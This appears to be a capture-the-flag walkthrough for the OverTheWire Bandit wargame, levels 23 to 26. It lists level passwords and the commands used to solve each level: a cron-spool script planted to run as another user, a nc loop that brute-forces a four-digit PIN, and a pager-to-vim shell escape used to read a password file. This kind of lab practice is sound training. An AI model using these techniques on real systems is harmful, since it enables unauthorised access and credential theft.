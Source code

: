 	# To exit	:wq + Enter
	
	touch pass
	chmod 777 pass
	cp test.sh /var/spool/bandit24/foo/
	cat pass
	[result comes after 60 seconds]
		
## level 24 --> level 25 
	pass gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
	user bandit24
	flag iCi86ttT4KSNe1armKiwbQNmB3YJP3q4  

	command:
	cd /tmp
	vim shell.sh

	#!/bin/bash
	bandit24=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
	for pin in {0000..9999};do
		echo "$bandit24 $pin"
	done | nc localhost 30002

	chmod 777 shell.sh
	./shell.sh

## level 25 --> level 26
	pass iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
	user bandit25
	flag s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ  

	command:  
	Make the terminal window small
	ssh -i bandit26.sshkey bandit26@localhost -p 2220
	Press 'v' to open VIM
		(man more --- for details)
	To disable insert mode
		press ESC
	To check current shell
		:set shell?
		press ENTER

	To change shell to Bash
		:set shell=/bin/bash
		Press ENTER

	Check the current shell again

	To run bash shell
		:shell

	To extract password
		cat /etc/bandit_pass/bandit26
